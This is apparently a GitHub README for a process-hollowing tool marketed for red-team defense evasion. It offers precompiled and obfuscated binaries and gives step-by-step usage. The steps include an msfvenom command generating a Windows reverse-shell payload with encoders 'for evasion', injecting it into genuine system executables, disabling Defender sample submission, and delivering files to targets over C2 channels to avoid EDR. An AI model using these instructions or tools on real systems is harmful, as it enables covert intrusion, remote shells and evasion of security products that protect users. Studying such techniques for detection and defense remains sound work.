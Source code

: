# Process-Hollowing
### Red Team Operation's Defense Evasion Technique for executing payload without raising flags on Target System.

## Kindly read [How To Use](https://github.com/vatsalgupta67/Process-Hollowing/blob/main/README.md#%EF%B8%8Fhow-to-use) !! - ***This is a Defense Evasion Technique so with time we add some suggestions for Red Team Ops to fulfill their primary objectives, so you can work Smoothly !!***

> [!WARNING]
> ## **This Binary made for Red Team Operations and user is only be responsible for the use, There's no liability of the Owner.**

# ***Made With ❤️ in 🇮🇳!!!***

### Credit of these Images goes to  their respective creators :relaxed:!!

![hollowing1-1_](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dd3cbd07-ebf0-447e-82f7-9b71384f9b00) 

![491809_1_En_10_Fig27_HTML](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/f972fda2-6e65-4bb8-86e5-5f984619f8fe)


![90540-1sncmwnz19drbfqzllk_d5w](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cdcee61d-1672-4bf6-9acc-2b952747e1cf)



We have both x86 and x64 bit release as you want. **we strongly suggest x64-bit release if you're confused about compiling manually.**

We suggest to use directly compiled executables as in some situations it depends on your compiler functionality. Both executables are stable and tested several times.


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc.** 

**For 32-bit - Mingw for Windows.**

# Index

* [Demo](https://github.com/vatsalgupta67/Process-Hollowing/blob/main/README.md#demo)

* [How to use](https://github.com/vatsalgupta67/Process-Hollowing/blob/main/README.md#how-to-use)

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# ⚠️How to use

> [!NOTE]
> ## Sometimes you have to Re-run the program because of Memory Issues. But do not worry, You'll get the shell on Re-run !!!  :nazar_amulet:


### Recommended to Turn-Off "Automatic Sample Submission" If you can or using in the testing environment.

***1. Generate a .bin file only - You can use C2 servers and metasploit too or any you want***

### Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST=< IP > LPORT=< PORT > -f raw -i < iterations as you want for evasion > -e < encoder you want to use > -o shell.bin - **x64-Bit**
  
 **2. Obfuscation is mainly depends your work to do as per your operation's requirement and the other things? - WE'LL HANDLE!!!**
  
***3. Transfer Both Payload and Binary to Target System.***  

***4. Hollow64.exe < Path to Any application to run or show as example -notepad.exe, calc.exe > < Path to Shellcode file > .*** - You can refer to above demonstration images and binary itself to understand also .  
  
*5. Execute, But remember .bin files can evade better as per my Personal Experience so, just make your Payload Obfuscated for better Defense Evasion.*
  
**6. After Execution, Payload will be run as your specified genuine windows executable ( system32's too ).**
  
***7. If you're injecting to custom binary - It might fails due to Memory allocation issue , still depends on your Privilege and many 3rd
level factors. But you can give it a try - In some cases it will work !! :nazar_amulet:***

***8. As we know EDR's and AV signatures keep updating, so we created an obfuscated release to assist you and have tested on the Latest Updated Windows . !!!***

 > [!IMPORTANT]
 > ## ⚠️**Keep few things in mind when using obfuscated release -**  

  * Never Directly Download Executable via Github on the target system, I found some bytes were missing - Technical Issue  + WindowsSmartScreen even mark genuine executables malicious too while downloading .EXE from Github. ( That's why Non-Malicious like WinPEAs , which is for PrivEsc too faces some windowsSmartScreen blockings ) 

 * Best way is to Download from Github to your Kali Linux or any Attacker Machine first and then transfer it to Target System via C2 Channels or any you like. ( Invoke-WebRequest too )

 * In this case you'll not face any problems regarding missing bytes or EDR. 

 * Sometimes you have to apply many other ways to Bypass EDR and there's not always be a Signature-Patch issue. But there might be a Feature or some Technical problems like missing bytes of the binary, which restricting us.



